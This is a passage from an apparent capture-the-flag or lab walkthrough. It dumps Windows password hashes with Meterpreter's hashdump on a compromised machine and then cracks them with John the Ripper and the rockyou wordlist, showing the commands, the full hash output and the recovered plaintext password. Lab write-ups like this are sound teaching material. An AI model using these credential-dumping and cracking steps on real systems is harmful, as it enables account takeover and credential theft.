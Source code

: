 # Cracking Passwords

With access to an elevated meterpreter shell we can now use commands to retrieve information from the taget machine, like dumping the password hash of the users with `hashdump`.

```shell
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
meterpreter > 
```

&nbsp;

Now we can copy this output to a .txt file and use john to crack the password using the rockyou.txt wordlist

```shell
root@BoB~# nano hashes.txt
root@BoB~# john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)
alqfna22         (Jon)
2g 0:00:00:06 DONE (2025-02-07 20:16) 0.2962g/s 1511Kp/s 1511Kc/s 1511KC/s alr1979..alpus
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed. 
root@BoB~#
```

We can see that the Jon user's password is alqfna22.